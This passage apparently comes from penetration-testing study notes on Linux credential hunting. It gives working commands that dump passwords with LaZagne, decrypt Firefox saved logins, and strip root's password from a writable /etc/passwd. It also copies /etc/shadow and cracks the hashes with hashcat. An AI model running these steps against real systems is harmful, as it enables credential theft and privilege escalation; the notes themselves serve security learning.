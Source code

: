     # lazagne can also be used to search for passwords in memory
    sudo python2.7 laZagne.py all
    ```
  
  * search for browser-stored passwords:

    ```sh
    ls -l .mozilla/firefox/ | grep default
    # creds stored in these directories

    cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

    # we can also use firefox_decrypt tool
    python3.9 firefox_decrypt.py

    # lazagne supports browser as well
    python3 laZagne.py browsers
    ```

* Passwd, Shadow & Opasswd:

  * PAM (Pluggable Authentication Modules) is one of the most common authentication mechanism seen in Linux distros; it uses modules like ```pam_unix.so``` or ```pam_unix2.so```, which are also responsible for changing and managing passwords

  * ```/etc/passwd``` contains info on every user on the system, and this file can be read by all - if it is writable, we can modify the field for root user, from ```root:x:0:0:root:/root:/bin/bash``` to ```root::0:0:root:/root:/bin/bash```, such that the system does not prompt for a password when user tries to login as root

  * ```/etc/shadow``` is used for password management, and includes all password info for created users; the encrypted password in this file has a particular format - ```$[type-of-encryption-algo]$[salt]$[hashed]```

  * ```/etc/security/opasswd``` contains old passwords, so that the PAM library can prevent password reuse; this file also requires admin privileges to read

  * if we have access to the above hashes, we can try to crack them:

    ```sh
    sudo cp /etc/passwd /tmp/passwd.bak

    sudo cp /etc/shadow /tmp/shadow.bak

    unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
    # to get them in the right format

    hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
    ```

